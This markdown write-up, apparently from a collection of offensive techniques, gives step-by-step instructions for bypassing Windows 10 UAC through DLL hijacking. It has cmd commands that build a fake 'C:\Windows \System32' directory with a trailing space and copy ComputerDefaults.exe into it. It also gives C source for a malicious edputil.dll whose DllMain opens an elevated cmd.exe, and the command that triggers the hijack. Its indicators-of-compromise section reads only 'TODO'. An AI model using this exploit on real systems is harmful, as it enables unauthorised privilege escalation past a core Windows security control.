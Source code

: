 # Mock Folder + Trusted Executable DLL Hijacking
## Summary

Certain executables within the Windows System32 directory are permitted to run with elevated privileges, bypassing UAC unless UAC is set to it's maximum setting. Creating a "Windows " directory, with the space at the end, will confuse the check to ensure that the trusted executable is running from within the System32 directory, and provides the ability to perform a DLL hijack. There is a series of confirmed DLL hijack candidates, in addition to more details on this exploit, that can be found [here](https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows).

## Prerequisites

- Windows 10 with a low-integrity process running under a LOCAL administrators account.
- The ability to compile C code that can target Windows DLL's

## Setup

N/A

## Execution

### Method 1 - ComputerDefaults.exe + edputil.dll

The following commands need to be ran using cmd.exe. It's also important that you do not attempt to `cd` into the directory, it will not work and will route to the normal Windows directory.

Step 1: Create the mock directory structure:

```cmd
mkdir "C:\Windows \"
mkdir "C:\Windows \System32\"
```

Step 2: Copy the target executable into the directory:

```cmd
copy C:\Windows\System32\ComputerDefaults.exe "C:\Windows \System32\ComputerDefaults.exe"
```

Step 3: For this method, the function required for edputil.dll is DllMain, modify and execute the following C code and name it as edputil.dll:

```c
#include <windows.h>

void domything()
{
	WinExec("cmd.exe", 1);
}

BOOL WINAPI DllMain(HINSTANCE h, DWORD d, LPVOID l)
{
	switch (d)
	{
		case DLL_PROCESS_ATTACH:
			domything();
			break;
		default:
			break;
	};

	return TRUE;
}
```

Then, move the DLL into the System32 directory. Your final directory structure should look like this:

![image](./images/Pasted%20image%2020240702162950.png)

Step 4: Execute the trusted binary:

```cmd
"C:\Windows \System32\ComputerDefaults.exe"
```

![image](./images/Pasted%20image%2020240702162926.png)

#### Indicators of Compromise

TODO